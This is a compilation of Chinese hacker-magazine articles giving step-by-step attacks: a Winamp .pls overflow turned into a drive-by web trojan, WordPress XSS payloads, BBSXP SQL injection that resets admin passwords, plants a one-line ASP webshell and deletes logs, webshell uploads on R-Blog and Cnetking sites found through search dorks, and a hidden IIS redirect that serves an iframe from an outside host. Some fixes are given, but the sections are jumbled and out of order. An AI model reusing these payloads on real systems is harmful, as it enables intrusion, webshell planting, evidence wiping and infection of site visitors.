[playlist]
numberofentries=1
File1=音频文件名（类型如: mp3）
Title1=BOF
Length=-1
Version=2
```

在VC6下编译、执行，生成文件crafted.pls。在打开该文件之前，先调出SoftICE，按习惯输入“Code on”和“Set font 2”两个命令。双击该文件后出现异常对话框，如图2所示。


其中，File1字段记录了待播放的音频文件名。显然，也只有该字段对我们有用，因为只有它才是字符串型的，其他字段都不是。要触发溢出，需要在该字段构造超长文件名。下文中，测试平台是Windows 2000 SP4，Winamp版本是5.12。

看来溢出点在0x400之后，那么我们就从0x400字节开始，以0x40字节为单位递增测试。

### 三、漏洞的调试、分析

```c
// 该参数构造 UNC 文件前缀
char szPlayListHeader1[] = "[playlist]\r\nFile1=\\\\";
// 该参数构造其它字段
char szPlayListHeader2[] = "\r\nTitle1=BOF\r\nLength1=-1\r\nNumberOfEntries=1\r\nVersion=2\r\n";
```

```c
memset(pszBuffer + 0x400, 0x94, 0x40);
memset(pszBuffer + 0x440, 0x95, 0x40);
memset(pszBuffer + 0x480, 0x96, 0x40);
memset(pszBuffer + 0x4C0, 0x96, 0x40);
memset(pszBuffer + 0x500, 0x95, 0x100);
```

```c
memset(pszBuffer + 0x400, 0x94, 0x10);
``````c
memset(pszBuffer + 0x410, 0x95, 0x10);
memset(pszBuffer + 0x420, 0x96, 0x10);
memset(pszBuffer + 0x430, 0x97, 0x10);
```

结果如图3所示。


看来溢出点就在 **0x410—0x41F** 这 0x10 字节范围内，我就不啰嗦了，大家按照前面的方法继续测试，直至找到溢出点就在 0x412 开始的 4 个字节，这里存放的就是函数返回地址。

溢出点找到了，接下来就是构造 ShellCode 并填入文件。经过测试，整个 UNC 路径的长度只能控制在 **0x420** 字节以内，因此，ShellCode 必须采用 **jmp back** 的方式。ShellCode 的功能就是弹出 Windows 计算器，利用程序具体代码请参见 Exp.cpp，在我机器上编译、测试通过。

## 四，漏洞利用

分析了漏洞之后，我们考虑的是如何利用这个漏洞。最好的方式就是制作为网页木马，放在特定的站点上诱骗其他用户点击访问。网页木马的制作其实很简单，分为两部分：Html 文件和 pls 文件。其中，pls 文件我们已经做好了，而 Html 使用 meta 标签的 http-equiv 属性，文件格式如下：

```html
<html><meta http-equiv="refresh" content="4; URL=crafted.pls">
<body>
请稍等
</body>
</html>
```

保存为 ok.html，在我机器上测试成功。关于网页木马的其他详细制作方法，我们将在另外的文章中专门讲解，这里只谈应用。

## 五，总结

本文中，我和大家一起分析了 Winamp .pls 解析溢出漏洞，并简单地给出了应用方法——制作为网页木马。内容并不复杂，关键是大家都要养成动手实践的好习惯，从基础做起，这样才能一步步提高个人能力。

> （文章中的 Test_Exp.cpp、Exp.cpp、crafted.pls 以及 ok.html 在光盘中都有提供。）

【编插点评】漏洞时在变，只要我们掌握了方法，都是可以分析利用的。这里的漏洞虽小，但是作者从查漏洞公告到其产生原因，进而分析调试其利用条件，最后结合网页木马的制作加以利用，虽然利用得还不够完美，但是思路清晰，读者可以按照作者提供的思路加以发挥和改进。

## 国外 Blog 系统：WordPress 的一些漏洞测试和利用

Iceskys[I.S.T]

- 从本文你将学到
- 如何使用搜索引擎来寻找目标网站
- 对 WordPress 漏洞的具体利用
- 针对漏洞的修补方法

WordPress 是由国外开发的一个基于 PHP 脚本的开源 BLOG 系统，其页面漂亮，功能丰富，网上有很多人都在用这个程序代码来搭建自己的 BLOG 系统。但是最近发现其 2.0.1 及其以下版本中存在不少的漏洞，漏洞是我在逛国外的一些站点时发现的。下面针对这些漏洞，我们来具体分析利用。

## 一，寻找目标：使用 WordPress 的 Blog 系统

我发现用这个的还真不少，我们只要在 baidu 或者 google 里用关键字：**proudly powered by WordPress** 搜索，就可以看到很多这样的网站，如图1所示。我们随便找一个做测试，Snoopy’s Homewordpress 这个吧，我也喜欢 Snoopy，嘿嘿~打开看看它的页面，哈，中文的，如图2所示，估计是他自己做的汉化吧，我们不管这些，先看漏洞吧！

## 二，漏洞利用：步步精彩

### 1、暴网站的绝对路径

找到目标后，直接提交 **URL + wp-settings.php** 就可以暴出其绝对路径。


如图3所示。


图3 暴路径

可以看到暴出下面的信息：

> Warning: main(ABSPATH/wp-includes/wp-db.php): failed to open stream: No such file or directory in /home/epsom/ningyu/personal/blog/wordpress/wp-settings.php on line 69.

Fatal error: main(): Failed opening required 'ABSPATH/wp-includes/wp-db.php' (include_path='.:/usr/local/lib/php') in /home/epsom/ningyu/personal/blog/wordpress/wp-settings.php on line 69.

可以看到其绝对路径就是：/home/epsom/ningyu/personal/blog/wordpress/wp-settings.php

另外，提交 URL+/wp-admin/menu.php 也能暴出，如图4所示：


图4 另外一种方法暴路径

错误提示是：

> Fatal error: Call to undefined function: _e() in /home/epsom/ningyu/personal/blog/wordpress/wp-admin/menu.php on line 7

其他还有很多这样的，比如提交下面的地址都可以：

- URL+/wp-includes/default-filters.php
- URL+/wp-includes/template-loader.php
- URL+/wp-admin/edit-form-advanced.php
- URL+/wp-admin/edit-form-comment.php
- URL+/wp-includes/rss-functions.php
- URL+/wp-admin/admin-functions.php
- URL+/wp-admin/edit-link-form.php
- URL+/wp-admin/edit-page-form.php
- URL+/wp-admin/admin-footer.php
- URL+/wp-admin/menu-header.php
- URL+/wp-includes/locale.php
- URL+/wp-admin/edit-form.php
- URL+/wp-includes/wp-db.php
- URL+/wp-includes/kses.php
- URL+/wp-includes/vars.php

我就不一一说明了，你可以自己去做测试。

#### 2、列目录漏洞

提交如下地址将暴出目录：http://www.****noopy.com/blog/wordpress/wp-includes/，如图5所示。


图5 列目录

#### 3、跨站攻击（XSS）

上面说的漏洞只能获得敏感信息而不能造成实质性的攻击，我们再来看下面的这个跨站，这个是最近最流行的漏洞利用了，如果利用得好，威力无穷，先看怎么利用：

在其日志的评论中没有对 name、website 和 comment 做充分的过滤，我们作为一个未注册用户可以直接利用 name 和 website 这两个，可以按照下面这样进行构造：

```text
Name: "><script>alert('漏洞门嘿嘿~ 来看NoHack!!')</script>
Site: "><script>alert('天马行空 狼技术小组：[IceSky.{S}ecurity.]Team. 酷机 [ST:www.iceSkyS.net]');</script>
```

结果如图6所示。


图6 跨站实例

写完提交就能看到效果，如图7所示，点 OK 后接着弹出如图8所示的界面。

当然，这只是一个示范，我们还有其他的利用方式，大家可以按照以前杂志上说的一些方法和技巧来拓展利用，我就不多说了，以免限制大家的思维。


图7 跨站效果1


图8 跨站效果2

### 三、漏洞分析和修补

### 1、暴绝对路径问题

在每个存在问题的文件前加上下面的代码：

```php
if (@eregi("name_of_the_file.php", $_SERVER['PHP_SELF'])) {
    die('You are not allowed to see this page directly.');
}
```

就可以了。

#### 2、列目录缺陷的原因和修补

这个缺陷产生的原因还没有搞清楚，有人在网上说这不是因为脚本的错误产生的，而是由于 .ini 文件的配置不当造成的，没有具体的修补办法。

#### 3、跨站漏洞的原因和修补

跨站问题出在文件 `wp-comments-post.php` 的 21 行，如下：

```php
$comment_author = trim($_POST['author']);
$comment_author_email = trim($_POST['email']);
$comment_author_url = trim($_POST['url']);
$comment_content = trim($_POST['comment']);
```

这里取的 name 和 website 没有过滤好，使得我们可以进行跨站，只要进行如下修补就可以了：

```php
$comment_author = htmlentities(trim($_POST['author']));
$comment_author_email = htmlentities(trim($_POST['email']));
$comment_author_url = htmlentities(trim($_POST['url']));
$comment_content = htmlentities(trim($_POST['comment']));
```

### 四、总结

这个 Blog 系统所产生的漏洞虽然比较常见，但是作为一个在网上广泛应用的系统，其危害性还是蛮大的，希望使用这个系统的朋友能做好修补以免不测。

> **声明** 文章中所做测试的站点，已通知站长，也没做任何的破坏，请大家不要用本文中的方法进行破坏，否则后果自行负责。

> **编辑点评** 利用暴出的漏洞对网上广泛存在的漏洞网站进行测试利用，用实际的操作来引导大家学习新的东西，且能对漏洞的产生给出相应的分析和修补建议。

## 在 BBSXP 6.0 sp1 中

寂寞的刺猬

## 从版主到管理员之旅

- 从本文你可以学到：
- 在 BBSXP 6.0 sp1 中提升版主到管理员权限的途径
- 漏洞的具体分析
- BBSXP 后台得到 WEBSHELL 的办法

今年第3期《手册》刚刚总括于论坛，偶就被其中的一则信息吸引住了——“BBSXP 6.0 sp1 上传注入漏洞利用”……在此文件的 71-77 行，偶看到了如下代码：

```text
case "BatchSpecialTopic"
for each ho in Request.form("ThreadID")
  ho=int(ho)
  Conn.execute("update [BBSXP_Threads] set [SpecialTopic]='" & Request.form("SpecialTopic") & "' ... where id='" & ho & "' and ForumID='" & ForumID & "'")
next
Log("批量专题, 主题ID:" & Request.form("ThreadID") & "")
error2("操作成功")
```

熟悉注入的朋友一眼就会看出，其中的 `Request.form("SpecialTopic")` 没有过滤，直接放入了 SQL 中……首先在本地搭建 BBSXP 论坛，环境是 WIN2003+SQLServer 2000+BBSXP6.0 SP1 SQL。

```text
ForumID=1&ThreadID=2&IsDel=1&isGOOD=1&isLocked=1&menu=BatchSpecialTopic&SpecialTopic=&AimForumID=
```


语句，然后用 nc 提交就可以实现注入了，但这种方法太麻烦，不如使用网页提交方便。于是偶在源代码中搜索 **"BatchSpecialTopic"**，找到了如下代码：

```html
<input type="radio" value="BatchSpecialTopic" name="menu">
<select name="SpecialTopic">
  <option value="">取消专题</option>
  <option selected value="1">更改专题</option>
</select>
```

BatchSpecialTopic 是 “radio” 选项提交的值，其名称为 “menu”，而 SpecialTopic 是下拉式清单的名称。作者好像没有下手之处，但这些代码是可以更改的，如果把 `<select>` 标记改为 `<input>` 中的文本样式，不就可以输入自定义的字符了吗？将源码另存为 bbsxp.txt，修改上面的代码为：

```html
<input type="radio" value="BatchSpecialTopic" name="menu">
<input name="SpecialTopic" type="text" size="80">
<br>
```

接着在源码中查找到如下代码：

```html
<form method="POST" action="ForumManage.asp">
```

将其中的 action 值更改为 `action="http://127.0.0.1/bbsxp/ForumManage.asp"`。

OK！更改 BBSXP.txt 的扩展名为 htm 并运行，虽然界面不甚好看，但实用为上嘛！先勾选其中的一个帖子，再选中文本框前的 “radio” 选项，然后在文本框中输入如测试内容：“abc'，PostsTableName='abc”，如图2所示。接下来点“执行”，弹出的是“操作成功”窗口，如图3所示。是否真的成功了？用 SQL 的查询分析器查看 [BBSXP_Threads] 表，如图4所示，SpecialTopic 值为 abc，PostsTableName 也被改为了 abc，注入代码成功运行。


上面的测试在 ACCESS 下同样可以执行成功，而当前的环境是 SQL 数据库，就要再来试一下分号及破折号是否可以运行。输入如下测试语句：“';--”，这样，ForumManage.asp 的注入代码在执行时，因为 “--” 后的内容会被忽略，因此执行时就变成了如下语句：

```sql
Conn.execute("update [BBSXP_Threads] set SpecialTopic='' ...")
```

本以为有单个括号及双引号会出错，想不到，弹出的仍是“操作成功”窗口，难道是天意助我？呵呵！再用一条 SQL 语句来测试看看，内容如下：

```sql
'update bbsxp_users set usermail=userpass where username='admin'--
```

此句的意思是把管理员 “admin” 的 MD5 密码写入到 “admin” 的 Email 中。在执行后，仍是“操作成功”，打开“论坛状态”下的“管理团队”，如图5所示，果然是操作成功。


OK！下面就借用 firstsee 的 SQL 代码来提升权限。

```sql
-- 备份后台管理密码到 admin 的个人主页中
update BBSXP_Users set UserHome=(select top 1 AdminPassword from BBSXP_SiteSettings) where UserName='admin'--

-- 修改 admin 的密码为 123456
update BBSXP_Users set UserPass='E10ADC3949BA59ABBE56E057F20F883E' where UserName='admin'--

-- 修改后台管理密码为 123456
update BBSXP_SiteSettings set AdminPassword='E10ADC3949BA59ABBE56E057F20F883E'--
```


在一阵无声的轰炸之后，接下来该收取战利品了。退出 jmdcw 用户的登录，重新以 admin 用户登录，密码用 123456，一路畅通无阻地来到后台，在其“主机环境变量”中，会显示出当前网站的物理地址，如图6所示。有了这个地址，就可以用数据库差异备份的方法再获取 webshell 了。

偶在《一次曲折的测试》中使用的是 Log 差异备份，这次用数据库的差异备份。方法如下：

```sql
-- 创建临时表
create table [dbo].[jm_tmp] ([cmd] [image])

-- 备份数据库，@s 为备份名称(jmdcw 的 16 进制转换)
declare @a sysname,@s nvarchar(4000) select @a=db_name(), @s=0x6A006D00640063007700 backup database @a to disk=@s

-- 将一句话木马“<%execute(request("1"))%>”的16进制字符串插入到表中
insert into [jm_tmp](cmd) values(0x3C25657865637574652872657175657374282231222929253E)

-- 对数据库实行差异备份，备份的保存路径为在后台看到的物理路径，文件名为 jm.asp。
declare @a sysname,@s nvarchar(4000) select @a=db_name(), @s='M:\internet\bbsxp\jm.asp' backup database @a to disk=@s WITH DIFFERENTIAL,FORMAT

-- 删除此表
drop table [jm_tmp]
```


```sql
-- 清除日志，分别清除当前版主 jmdcw 及管理员 admin 的日志
delete from BBSXP_Log where UserName='jmdcw' and cast(DateCreated as nvarchar(10))=cast(getdate() as nvarchar(10))
delete from BBSXP_Log where UserName='admin' and cast(DateCreated as nvarchar(10))=cast(getdate() as nvarchar(10))

-- 恢复后台管理密码
update BBSXP_SiteSettings set AdminPassword=(select UserHome from BBSXP_Users where UserName='admin')

-- 恢复 admin 的密码
update BBSXP_Users set UserPass=UserMail where UserName='admin'

-- 清除 admin 中的电子邮件和个人主页数据
update BBSXP_Users set UserMail='' where UserName='admin'
update BBSXP_Users set UserHome='' where UserName='admin'
```

备份完成后，在 URL 中输入“127.0.0.1/bbsxp/jm.asp”，如图7所示。在页面的最下方出现“类型不匹配：'execute'”，说明一句话木马寄生成功。接下来只需用一句话木马客户端去连接 jm.asp，就可以得到更强大的木马了。

至此，我们就由版主权限晋升为 WEBSHELL 权限了，不过，善后工作也要做好哟！

OK，到这里我们就全部结束了，大家不要搞破坏哈。

编辑点评：现在的漏洞无处不在，有时不起眼的一个地方都有着很大的利用空间。文中是从版主到管理员的权限提升，利用空间虽然不是很大，但也是够大家来尝鲜了。可是利用之前还是看看怎么能混一个版主做做，要不一切都是枉然；除非又爆新漏洞了。

## R-Blog 1.5.3 上传漏洞代码分析利用实例

> 浪迹天[LS.T]

- 从本文你可以学到：
- R-Blog 的漏洞代码分析。
- 一般漏洞的利用步骤。
- 上传漏洞的修补方法。

现在，Blog 真的越来越流行了，谁都想拥有自己的 Blog。前不久 GF 让我帮她做个 Blog，当然答应咯，于是在网上找找看哪个比较合适，看到一个 R-Blog，是用 PHP 写的，下回来试用一下，界面比较漂亮，功能还算可以，只是安全性好像差了点。我们来看看吧！

### 一、漏洞分析——知其然，知其所以然

记得以前好像有人提到过这个 Blog 有上传漏洞，我们主要看它的上传是怎么处理的。下面看代码，在 admin/upload.php 这个文件里：

```php
<?php
if(isset($_FILES['picname']['tmp_name']) && $_FILES['picname']['tmp_name']!=""){
    list($n,$e)=split("\\.",$_FILES['picname']['name']); // 取文件名和后缀
}
?>
```

```php
if($e=="jpg"||$e=="jpeg"||$e=="gif"||$e=="png"){ // 判断是不是图片
    $filename="u_".time();
    $folder="upload/img/"; // 图片就放在这里
    $ubcode[0]="[IMG]";
    $ubcode[1]="[/IMG]";
}else{
    $filename=$n;
    $folder="upload/software/"; // 不是图片就放在这里
    $ubcode[0]="[download=";
    $ubcode[1]="]".$n.".".$e."[/download]";
}

$r=copy($_FILES['picname']['tmp_name'],"./".$folder.$filename.".".$e); // 直接按原名拷过去
```

可以看到，这个后台文件是不是没有验证，管理员就拿出来显示了？这使普通的浏览者都可以直接请求这个文件，一个很大的缺口。我们再看它是怎么处理上传的。看上面那段代码，主要是这几句，如下：```php
$subbcode[0]="[IMG]";
$subbcode[1]="[/IMG]";
...
else
{
  $filename=$n;
  $folder="/upload/software/";
  $subbcode[0]="[download=";
  $subbcode[1]="]".$n."".$e."[/download]";
}
```

如果上传的文件后缀是图片格式（jpg、jpeg、gif、png）的，就保存在“upload/img/”下，否则就放在“upload/software/”下，再直接上传我们的 PHP 木马。接着看下面：`$R=copy($_FILES['picname']['tmp_name'],"../".$folder.$filename.".".$e);`

它也没有改文件的名字和后缀，就直接放在上面我们分析的那两个目录下，那我们就可以直接得到上传后的路径（其实抓包分析也能得到，不过不需要这么麻烦）。这样我们就可以直接请求那个页面，再上传 PHP 木马，然后请求 PHP 马的路径就是一个 WebShell，略。过程很简单，下面我们再看具体怎么来用。

### 二、漏洞利用实例解析——明明白白

### Step 1 寻找目标

在 Google 或者 Baidu 里搜索 POWERED BY R-Blog，就能看到很多这样的 BLOG 系统，如图 1 所示。


#### Step 2

我们随便选择一个，直接请求 URL+/admin/upload.php，就能看到上传界面了，如图 2 所示。


我们点“浏览”，选择一款自己的 PHP 木马，记住文件名，这里用的就是我自己的一个 PHP 木马 1stphp.php，然后直接上传，会看到如图 3 所示的提示页面，这是成功上传的提示。

#### Step 3

直接请求 URL+upload/software/1stphp.php，就能看到我们的 WebShell 登录界面，输入密码后就能看到如图 4 所示的界面。


### Step 4 扩大战果，获得更多信息

由上面得到的 WebShell，我们来看看主机的安全如何，是 Linux 的主机，我们先试着跳转下目录，直接往根目录跳，得到如下结果，如图 5 所示。


再试下能不能直接查看文件，在 WEBSHELL 功能项里执行 `cat etc/passwd`，看能不能看到账号，结果如图 6 所示，看到了 N 多 N 多的账号信息，好多都是在 homepage 目录下的，看来是放在它上面的网站，现在任我操作了，好危险。

最后用 **uname -a** 命令看下主机的环境是：

`Linux reslib 2.4.20 #1 SMP Mon Apr 7 19:25:17 CST 2003 i686 unknown`

由于对 Linux 不是很熟悉，就没有继续做下去，这次测试也就结束了。

### 三、修补建议——亡羊补牢，为时未晚

最简单的修补方法：在 admin/upload.php 文件开始处，增加如下代码屏蔽非管理员对此页面的访问：

```php
include "function.php";
if (islogin() == 0)
    pagelogin();
```

还有一个修补方法是对上传文件的后缀进行严格的判断，比较麻烦，不容易实现而且易被突破。代码我写了一个 upload.php，放在光盘里了，感兴趣的话自己看吧，就不贴上来了。

## 二、中网景论坛上传漏洞

说起上传漏洞，大家一定不会感到陌生。如果利用它来上传个 ASP 后门，整个站，甚至整个服务器都会被人家控制，所以这是一种很严重的漏洞。由于前段时间上传漏洞比较流行，使得网站的管理员比较看重这类漏洞，都以最快速度修补了。修补方法各有千秋，但是否都修补完善呢？据笔者的观察，大部分的程序都修补上了，但仍有一些程序，在修补的时候考虑不全，使得上传漏洞得以重生，中网景论坛就是这样的一个例子。

大家搜索一下 **Power by: Cnetking BBS** 便可以找到该论坛的有关介绍了，这里我便不介绍了，直接进入正题。

存在漏洞的文件有 `editor_Upfile_Article.asp` 和 `editor_Upfile_Dialog.asp` 等等，因为这些文件的代码大同小异，下面就以 `editor_Upfile_Article.asp` 文件来介绍，我们先来看 `editor_Upfile_Article.asp` 的代码：

```asp
<!-- #INCLUDE FILE="opendb.asp" -->
...
' 禁外站外进
server_v1 = Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2 = Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1, 8, len(server_v2)) <> server_v2 then
  response.write "..."
  response.end
end if
...
```

此部分代码作了防止外部数据提交的处理，本来加上此功能是可以防止绝大部分可能的上传的，但由于作者的无意识错误使此段代码形同虚设，这里先跳过，后面再说。本文件使用化境无组件上传类，代码大家可能也不会陌生了，在此便省略部分代码，未知者请参看完整的 `editor_Upfile_Article.asp` 文件。

```asp
fileExt=lcase(oFile.FileExt)
...
```

### 四、总结

本文没有什么技术含量，只是带着大家熟悉漏洞产生的过程以及利用的步骤。漏洞网站还广泛存在，希望大家不要搞破坏。（文章中提到的限制上传类型的代码 upload.php 和用到的 1stphp.php，在光盘中有收录。）

> 编辑点评：编完这个文章，小编在想，现在系统的安全性和实用性总是存在着相互冲突的地方，程序的开发者往往考虑较多的是程序的实用性而忽略了安全；我们的安全爱好者更加关注的则是程序的安全，却又忽略了程序的实用性。我们期待什么时候两者能互取优点，开创一个新的局面。

```asp
arrUpFileType=split(UpFileType, "|")
for i=0 to ubound(arrUpFileType)
  if fileEXT=trim(arrUpFileType(i)) then
    EnableUpload=true
    exit for
  end if
next
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
  EnableUpload=false
end if
if EnableUpload=false then
  msg= "..."
  FoundErr=true
end if
```

这段代码是不是很熟？呵呵，劲易的上传漏洞也就是出现在这了，此处存在安全隐患。

```asp
filename=savepath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
oFile.SaveToFile Server.mappath(FileName)
...
set MyFile = server.CreateObject("Scripting.FileSystemObject")
sFile = Server.MapPath(FileName)
set MyText = MyFile.OpenTextFile(sFile,1)
sTextAll = lcase(MyText.ReadAll)
MyText.close
...
if instr(sTextAll,sNOString(i))<>0 then
  ...
  Response.write "文件中含有与操作目录等有关的命令..."
  Response.end
end if
```

这一段代码，对上传的文件进行检查，如果出现危险字符就将文件删除掉，后面的代码可略去不看……

看完了代码，来分析一下：代码(2)部分，因为已经有人分析过了，此处略过；此段代码的一般利用方法是：构造一个非空 ID，再在新增的提交变量的后缀加个空格，因为 asp（后面有空格）是不等于 asp 的，而对于 Windows 碰到有空格的会自动去掉空格，所以当我们上传一个 asp 文件就会变成一个 asp 文件（请参看林子的《再暴动力上传漏洞》，可在网上搜索到）。

再看代码(3)，这段代码主要是检查所上传文件的内容，如果发现文件内容包含 .getfolder、.createfolder、.deletefolder、.createdirectory、.deletedirectory、.saveas、wscript.shell、script.encode 等字符串，就把文件删除。一般的 asp 后门都会包含 .getfolder、.createfolder、.deletefolder、.createdirectory、.deletedirectory、.saveas、wscript.shell 等内容，虽然代码经过加密会减少很多字符，但仍会有 script.encode。乍一看，不加密上传不了，加了加密也上传不了，那还能上传什么？大家别忘了，最常用的那个小马，如图1，就没包含这些代码了，可以上传。

```asp
<%
' ...（图中ASP上传相关代码，细节较模糊）
%>
```


但是，这只小马已经是多家杀毒软件的查杀对象了，除非是瑞星（笔者也觉得怪，瑞星竟然不杀这个？），这要靠你的运气了。笔者的运气不错，测试过程中就碰到了瑞星的。但这也不是办法，如果是卡巴的话，就会把它杀掉了，那又该怎么办？想了一会儿，终于记得还有一句话木马：`<%if request("#")<>"" then execute(request("#"))%>`，这句代码也没有包含上述内容，应该可以上传。

回过头看代码(1)，此处防止外部提交数据！凡是从服务器外部发送进来的数据，都会有出错提示！回头看看论坛程序的其它文件，editor_Upload_Article.asp 这个向 editor_Upfile_Article.asp 提交数据的文件，没有利用的可能，而我们要构造新文件从外部提交数据也不行，这么一来，代码(2)、(3)处存在的漏洞不就不能用了？

笔者怎么也想不出怎么绕过这层验证，就在笔者想放弃的时候，突然看到论坛的回复处——论坛支持 HTML 格式发帖，那我们不是可以使用本功能，在发帖时构造表单来发送数据了？而且，如果成功，不就可以通过代码(1)伪防止外部提交数据的验证了吗。

```html
<FORM name=form1 action=editor_Upfile_Article.asp method=post enctype=multipart/form-data>
...（图中HTML表单代码截图，细节模糊）
</FORM>
```

在论坛回复处（也可以发新帖）点“源代码”，然后在内容框里面填入上面的代码，写好用户名，心理默念着千万别把这段代码的关键字给过滤掉的同时，点了“回复”，结果令人兴奋，返回结果如图2：


接着马上测试上传，看看是否能成功。在图2中的第一个浏览那里选择一个小的真正图片，在第二个浏览那里选择一句话木马（或是小马）文件，别忘了在后面加个空格。然后点上传，结果什么都没有返回，这里别以为没有上传成功，先看看它的源代码。如图3 `[upload=asp ]upload/2006312234656560.asp [/upload]`，其中的 `upload/2006312234656560.asp` 就是我们成功上传的文件了。


在论坛网址后面加上 `upload/2006312234656560.asp`，然后回车，没有返回空白页，说明文件已经上传成功（直接访问一句话木马就是这样的）。此后，便可以用一句话木马的客户端来上传你的大马了。

后话，检查上传文件、防止外部提交数据，这本来是防止上传漏洞的好方法，但是加入了使用 HTML 的功能，使防止外部提交数据功能形同虚设，这是程序作者万万没有想到的；另外，上传文件的代码中也有多处不妥，才使我们有机可乘……

- 1. 将代码(2)处的判断限制上传类型的代码改成判断允许上传类型的代码，符合上传类型才能上传，否则拒绝。
- 2. 在代码(3)的第一句前，加入判断文件后缀的功能，如果文件后缀不是合法的，则强制改成合法类型的一种，比如默认改成 gif 格式。
- 3. 在代码(3)的检查文件内容中，添加更多的检查关键字，比如加入一句话木马的。
- 4. 禁用 HTML 功能，论坛只支持 UBB 标签就够了。

## 结语

笔者为此漏洞录制了两个动画，所以在写稿时就没截图，大家可参照动画加深理解（编辑：到发稿时，由于光盘已经进厂，所以这两个动画没有收录进去，于是作者把动画放在了网上供大家下载——http://www.bazhi.com/upfile.rar）。同时，笔者已经联系程序作者修补漏洞，文中内容只为提醒大家在修补上传漏洞的时候要多加小心，以防止更多的漏洞，所以，请勿以此法搞破坏，否则后果自负。

> 【编辑点评】就在小编感叹现在研究 PHP 安全的人越来越多而逐渐忽略了 ASP 时，这篇文章就来了，作者分析代码，找出其中的几处安全隐患和一些防范的比较好的措施，最后利用存在隐患突破限制，达到最终目的：上传 WEBSHELL。

本期栏目与大家见面时，恐怕愚人节就要到了。那是一个可以合法捉弄人的日子，不知大家有没有什么好主意。反过来想一想，其实网络的攻与防也是黑客与网管的一个捉弄与被捉弄的游戏，两者斗到最后，往往胜利的是利用对方人的失误。要做一个真正的黑客，人性必是伟大的。像有人利用技术去盗游戏装备，培训别人去盗 QQ 号，我认为已经不算是黑客了。

## 一种奇特的挂马方式

创意组（C币）

我写这篇文章并不是教大家怎么跑去挂马的，挂马是不对的！不过有时候真的很想做些让人觉得痛快的事，因为我就碰到很多管理员，你跟他说服务器有问题，他不信；你改些东西警告他吧，他比你还勤快，你一改他就马上覆盖回去，让人真的很郁闷！还有，在一些服务器上，权限都拿到了，但不知道他是怎么弄的，什么都不让写，好不容易写个文件，不一会儿就恢复了，真的让人很！#$%%#%^#%。

据说就有一种软件能监视重要的文件，一旦发现更改就会给恢复过去。譬如它监视 web 目录的话，我们就不能更改它网站的任何内容了（编辑 lcx：启明星辰网站就有这种软件——WebKeeper，是免费下载的，地址是 http://www.venustech.com.cn/download/tools/20040626/2431.htm）。

不过，看了很多大虾的文章，自己也略做研究了下，总算琢磨出点东西来了，不用写任何文件就可以实现将别人的页面篡改和大家经常说的挂马等，这里就给大家介绍下。那些只知道勤快的管理员可要当心了！

大家知道，我们浏览网站的时候，都是由服务器将信息处理成 HTML 方式再返回给我们的。而我们所要实现的是当客户端访问的时候，通过一些漏洞使其隐藏地执行我们的木马等。比较常见的方式就是引入 Frame，设置属性让它在页面不可见，或者有不怕死的就用 JavaScript 跳转，再高级点的会利用源代码里的 HTML 元素如 script 标记或者 frame 标记，然后在这些标记里引入的其他文件或页面里做手脚，或者更改某些要在主页上显示的数据库内容，如修改数据库里的公告实现挂马。

但是这些都需要在服务器的源代码里加东西或者修改网站的内容。无论是跨站还是直接修改源代码，都是极容易被发现的事，遇到一个勤快的管理员，你的东西就在服务器上待不了多久了！还有就是如果一些页面是不可写的，也很令我们郁闷，所以有必要寻找一种更隐蔽和更安全的挂马方式解决上面的问题。

我们先去 IIS 管理器里看看吧！选中一个页面，看看它的属性，如图1所示。呵呵，有个资源重定向吧！如果我们将这个页面选择重定向到我们已经控制的一个页面，那么当浏览器请求这个页面的时候，将会转而去访问我们定义好的那个页面。如果这个页面是网页木马呢？很显然，访问者就会被挂马！这是很简单的方式，只需在 IIS 里更改页面的重定向就可以了，任何能接触到 IIS 管理器的人都能轻易做到。但是这样还有问题，如果管理员发现页面总被跳转，在检查网站的文件及用备份等手段恢复还是不能解决问题的时候，他肯定会去 IIS 里看的，一不小心看到主页的属性就会发现哪里存在问题，然后就会给改回去了。

所以我们继续看看有没有更隐蔽的方法！借助以前挂马的方法，既然主页很容易被发现，那么去看看主页里的 HTML 标记吧，如果发现有调用其他页面就好办了！譬如首页里有这么一个标记：`<script src="include/mm2.js"></script>`，那我们就有办法了，可以修改 include/mm2.js 的属性，如图2所示，转到我们的某个页面，内容当然是要能在 script 标记里解释的了，如：`document.write('<iframe style=\'display:none;\' src=http://jnclovesw.com width=0 height=0></iframe>');`，这样就可以引入我们的页面了！

当然，最好还是先实现它 JS 的功能，那样才够隐蔽。现在，管理员会发现首页没有更改，去 IIS 里看首页的属性，也没有更改，甚至主机上的任何 www 文件都没有修改，他会很郁闷吧！如果他只是把以前的网站备份恢复回去也是没有办法把页面改回去的，IIS 文件那么多，他总不能一个一个看属性吧！

这里顺便提一下，就是你选择重定向过去的文件必须是能被引用它的 HTML 标记解释的，否则是没有效果的。譬如一个 ``，你把 1.jpg 重定向到我们的木马页面是没有用的，因为木马页面没有被当成 HTML 解析，而是被送到 img 标签里当成图片了。

我想到的能利用的标记也就是 script 还有 frame，至于 CSS，我想也是可以利用的，只是利用的方法我还没有找到。当然，我的分析不知对不对，欢迎大家指教啊！

让我们继续吧！假设你面临的管理员够厉害或者够勤快，他发现了你在 mm2.js 上做了手脚，就会从 IIS 里把它恢复过去，我们的梦想就又破灭了。那有没有更隐蔽的办法，可以让管理员在 IIS 里都找不到呢？答案是肯定的。

大家一定记得很久前的那个 IIS 配置漏洞吧，可以建立一个看不见的虚拟目录，然后在里面建立后门。我们也可以借来利用啦！看着 IIS 配置漏洞的原理，是说建立一个没有物理目录的虚拟目录，这样在 IIS 里就会不可见，然后就可以在这个目录里做些小动作了。

```bat
cscript adsutil.vbs CREATE /W3SVC/1/Root/www/include "IIsWebVirtualDir"
```

这样就会建立一个 IIS 里不可见的虚拟目录。然后再在这个目录下建立一个名字叫 mm2.js 的虚拟目录，等特殊字符……


W3SVC/1/Root/www/include/mm2.js “IIsWebVirtualDir”，这样就在一个 include/mm2.js 的虚拟目录了。想到什么了？是不是跟主页里调用的那个文件名字是一样的？我们继续往下做：

`cscript adsutil.vbs set W3SVC/1/Root/www/include/mm2.js/httpredirect "http://jnclovesw.com/mm1.js"`，这样是更改 mm2.js 虚拟目录的重定向特性，如图3所示。


